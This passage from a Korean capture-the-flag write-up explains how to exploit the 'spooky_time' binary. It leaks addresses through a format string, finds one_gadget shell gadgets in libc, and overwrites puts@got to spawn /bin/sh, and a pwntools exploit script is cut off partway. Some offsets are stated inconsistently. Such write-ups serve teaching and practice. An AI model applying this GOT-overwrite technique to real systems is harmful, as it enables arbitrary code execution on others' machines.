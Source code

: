 0xebdaf execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x48 is writable
  rax == NULL || {rax, r12, NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp

0xebdb3 execve("/bin/sh", rbp-0x50, [rbp-0x70])
constraints:
  address rbp-0x50 is writable
  rax == NULL || {rax, [rbp-0x48], NULL} is a valid argv
  [[rbp-0x70]] == NULL || [rbp-0x70] == NULL || [rbp-0x70] is a valid envp
```

 - one_gadget 을 이용하여 제공되는 libc 파일에서 oneshot address 를 가져옵니다. 단 여기서 중요한점은 rsi = NULL 이면 안됩니다.
 - 딱히 정리된 문서를 찾지못하여 뇌피셜이긴하지만 아마 rsi가 첫번째 인자를 가르켜서 그런것같습니다. 
 - 그러니 전 ```0xebcf1``` 이 주소를 사용하도록 하겠습니다.

 - 두번째는 puts_got addr 입니다.

 - puts@got
```
whoami@choijunwon:~/spooky_time/test/challenge$ objdump -R spooky_time | grep "puts"
0000000000003da0 R_X86_64_JUMP_SLOT  puts@GLIBC_2.2.5
```

 - objdump를 활용하여 base주소에서부터 got주소까지의 offset 을 확인할수있었고 실제 got주소는 다음과 같습니다.
```
binary_base + 0x3da0
```

 - 이제 모든값을 구하였고 exploit을 해야합니다.
 - 최종 exploit 시나리오는 다음과 같습니다.
```
1번째 입력값에서 %3$p,%51$p 를 입력하여
3번째와 51번째 주소를 가져옵니다.
3번째값 -1133111
5번째값 - 5056
위 연산을 통해 각 base주소를 구합니다
이후 puts_got 에 oneshot 주소를 덮어 puts@plt가 global table offset 을 호출할때 one_gadget이 실행되도록 설정합니다.
```

## exploit
```
from pwn import *

p = process("spooky_time")

context.arch = 'amd64'

p.recvuntil("scary!\n")
p.sendline(b"%3$p,%51$p")

p.recvuntil("than")
p.recvline()
